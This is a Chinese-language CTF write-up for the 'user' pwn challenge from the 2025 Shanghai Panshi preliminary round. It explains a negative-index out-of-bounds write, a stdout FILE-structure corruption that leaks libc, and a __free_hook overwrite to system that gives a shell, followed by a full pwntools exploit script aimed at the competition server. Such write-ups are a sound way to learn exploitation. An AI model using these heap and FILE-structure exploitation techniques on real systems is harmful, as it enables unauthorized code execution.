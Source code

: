 ```yaml
---
title: 上海磐石行动 2025 初赛 - user
date: 2025/08/09 15:29:00
updated: 2025/08/09 15:29:00
tags:
    - IO arb write
    - libc2.31
excerpt: 利用负索引越界修改`stdout`泄露libc并覆盖`__free_hook`为`system`实现get shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.18|

## 解题思路

看到`delete`和`edit`对输入的索引检查不严格，允许我们输入负数以向前访问。
由于RELRO只读，因此我们有效的数据只有`stdin, stdout, stderr`和`__dso_handle`。
使用`edit`，我们能够写`*stdout`的前0x40字节，通过修改`_flag`和`_IO_write_base`，
就可以让`puts`先将base-ptr范围之间的内容输出出来，借此泄露libc。

{% note green fa-lightbulb %}
网上一般说修改`_flag`为`0xfbad1800`，但是这样的话就不是无缓冲了，会影响脚本后续判断，
因此根据原flag，我们可以设置为`0xfbad1887`，这样既能利用成功，又能保持原有的输出特性。
{% endnote %}

不难注意到`__dso_handle`上放着`__dso_handle`自己，因此我们edit它时，
等于原地修改那一片的内存。由于是libc2.31，可以直接写入一个`__free_hook`的地址，
再edit它并写入`system`，就利用完毕了。最后分配一个堆块写入`/bin/sh`后，
释放一下就能拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './user'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('pss.idss-cn.com', 22122)
    elf = ELF(EXE)
    libc = elf.libc

    def add(buf: bytes):
        t.sendlineafter(b'Unregister', b'1')
        t.sendafter(b'username:\n', buf)

    def delete(idx: int):
        t.sendlineafter(b'Unregister', b'2')
        t.sendlineafter(b'index', str(idx).encode())

    def edit(idx: int, buf: bytes):
        t.sendlineafter(b'Unregister', b'4')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendafter(b'username:\n', buf)

    edit(-8, flat(0xfbad1887, 0, 0, 0, p8(0x8))) # set stdout->write_base to stdout->chain
    libc_base = t.u64() - libc.symbols['_IO_2_1_stdin_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    add(b'/bin/sh')
    edit(-11, p64(libc.symbols['__free_hook'])) # write free_hook on __dso_handle
    edit(-11, p64(libc.symbols['system']))      # write system on free_hook
    delete(0) # trigger free hook

    t.clean()
    t.interactive()
    t.close()
```

{% note default fa-flag %}
![flag](/assets/shanghai2025/user_flag.png)
{% endnote %}
